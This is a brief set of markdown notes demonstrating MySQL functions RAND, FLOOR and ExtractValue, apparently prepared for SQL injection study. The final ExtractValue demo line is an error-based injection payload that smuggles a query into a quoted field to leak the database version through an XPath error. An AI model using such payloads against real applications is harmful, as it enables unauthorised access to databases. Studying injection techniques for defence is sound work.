


# SQL Functions 

RAND 



Demo 

```
Select rand(0*2) from comment;
```

FLOOR 



Demo 

```
Select floor(2.33) from comment;
```

ExtractValue 


Demo

```
SELECT ExtractValue('<a><b/></a>', '/a/b');
SELECT ExtractValue('<a><b/></a>', 'count(/a/b)');
admin' AND extractvalue(rand(),concat(0x3a,version())) -- 
```